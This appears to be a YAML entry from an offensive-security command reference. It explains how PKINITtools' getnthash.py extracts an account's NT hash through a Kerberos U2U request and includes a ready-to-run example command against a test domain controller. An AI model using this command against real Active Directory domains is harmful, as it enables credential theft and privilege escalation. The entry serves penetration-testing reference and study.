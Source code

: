 ```yaml
---
description: |
  PKINIT getnthash.py request a TGS for yourself using Kerberos U2U. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that you got from your TGT request using gettgtpkinit.py from PKINIT. Use the TGT from gettgtpkinit.py in your KRB5CCNAME env variable.

  Command Reference:
    ```
    Domain: test.local

    Host that you got the TGT from: DC01

    TGT from gettgtpkinit.py: out.ccache

    AS-REP key: 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773
    ```

command: |
  KRB5CCNAME=out.ccache python3 getnthash.py test.local/DC01\$ -key 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773
items:
  - TGT
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
references:
  - https://github.com/dirkjanm/PKINITtools
  - https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/
---
```

